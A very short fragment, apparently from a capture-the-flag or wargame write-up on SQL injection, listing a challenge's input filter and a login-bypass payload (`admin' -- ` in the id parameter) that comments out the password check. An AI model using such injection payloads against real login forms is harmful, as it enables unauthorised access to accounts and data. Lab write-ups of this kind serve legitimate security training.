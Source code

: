 Filter(id&pw): `prob` | `_` | `.` | `()`

ID: `admin' -- `

PW: `123`

Payload: `?id=admin' -- &pw=123`

